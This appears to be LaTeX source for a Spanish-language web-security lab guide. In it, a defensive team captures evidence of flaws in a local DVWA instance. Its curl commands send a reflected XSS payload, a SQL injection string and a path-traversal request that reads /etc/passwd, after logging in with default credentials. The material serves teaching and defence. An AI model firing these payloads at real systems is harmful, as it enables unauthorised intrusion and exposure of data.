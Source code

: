 \documentclass[11pt,a4paper]{article}
\newcommand{\iconotexto}[2]{\textcolor{cyanNeon}{\faIcon{#1}}~#2}
\begin{document}
La mitigación aplicada, el comando de verificación y la comparación de resultados.

\section{\iconotexto{list-ol}{Ejemplo paso a paso}}

El rol Azul reproduce la falla y despues aplica el control que la corta, sin cambiar el payload. Si el resultado cambia porque se cambio la peticion, no se demostro nada.

\subsection{Iniciar sesion y fijar el nivel de DVWA}

Todo se ejecuta con la sesion del laboratorio y el nivel bajo, que es el que se quiere demostrar vulnerable. El token CSRF se extrae de la pagina, no se supone.

\begin{lstlisting}[style=estiloCodigo]
mkdir -p semana_05/evidencia
curl -s -c semana_05/evidencia/cookies.txt \
  http://127.0.0.1:8081/login.php > semana_05/evidencia/login.html
TOKEN=$(grep -o "name='user_token' value='[^']*'" \
  semana_05/evidencia/login.html | head -1 | cut -d"'" -f4)
curl -s -b semana_05/evidencia/cookies.txt -c semana_05/evidencia/cookies.txt \
  -d "username=admin&password=password&Login=Login&user_token=$TOKEN" \
  http://127.0.0.1:8081/login.php -o /dev/null
curl -s -b semana_05/evidencia/cookies.txt \
  -d "security=low&seclev_submit=Submit" \
  http://127.0.0.1:8081/security.php -o /dev/null
\end{lstlisting}

\subsection{Capturar la evidencia de los tres hallazgos}

Cada peticion se guarda con su respuesta completa. El reflejo del XSS, la fila extra de la inyeccion y el contenido del archivo leido son la prueba, y se guardan tal cual.

\begin{lstlisting}[style=estiloCodigo]
curl -s -b semana_05/evidencia/cookies.txt \
  'http://127.0.0.1:8081/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C/script%3E' \
  > semana_05/evidencia/xss_antes.html
curl -s -b semana_05/evidencia/cookies.txt \
  'http://127.0.0.1:8081/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit' \
  > semana_05/evidencia/sqli_antes.html
curl -s -b semana_05/evidencia/cookies.txt \
  'http://127.0.0.1:8081/vulnerabilities/fi/?page=../../../../etc/passwd' \
  > semana_05/evidencia/lfi_antes.txt
sha256sum semana_05/evidencia/*_antes.* > semana_05/evidencia/antes.sha256
\end{lstlisting}
\end{document}
